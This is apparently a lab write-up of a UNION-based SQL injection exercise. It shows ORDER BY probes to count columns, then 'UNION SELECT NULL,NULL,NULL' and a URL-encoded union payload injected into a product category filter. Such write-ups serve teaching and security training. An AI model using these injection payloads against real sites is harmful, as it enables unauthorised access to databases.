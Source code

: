 ![image](https://github.com/user-attachments/assets/ae03b5a9-f8ad-48b2-9b52-06c1bbb020aa)

### Solution

## Initial Observations
- The table displays 2 values:
  1. The name
  2. The price of the product
---

We craft the request by adding **UNION** along with **ORDER BY** clause to *find the number of columns that is being used by the query*.

**ORDER BY 1**

```SQL
SELECT * FROM someTable WHERE category = '<CATEGORY>' ORDER BY 1 --
```

![image](https://github.com/user-attachments/assets/02fafc7c-ab08-48cc-ae65-316157a2b3dd)


**ORDER BY 2**

![image](https://github.com/user-attachments/assets/9d5a1e19-31fd-4823-a449-3c83cb1adc77)


**ORDER BY 3**

![image](https://github.com/user-attachments/assets/e14e88f2-dbe8-48f9-a2c9-256ec11df49e)


**ORDER BY 4**

![image](https://github.com/user-attachments/assets/f62550ea-af17-45be-a00c-0aa8fbb9f657)


This throws an error. It means that there are 3 columns that is being retreived in the query by the web application.

Now as per our given question, we use **UNION SELECT NULL** payload to return an additional column that contains null values.

```sql
SELECT * FROM someTable WHERE category = '<CATEGORY>' UNION SELECT NULL,NULL,NULL --
```

or

We can also add values instead of using NULL:

```sql
/filter?category=Accessories'+union+all+select+'0','1','2'--

```

![image](https://github.com/user-attachments/assets/5f2fb7a4-56b5-49ad-af4d-26c2df05dff1)
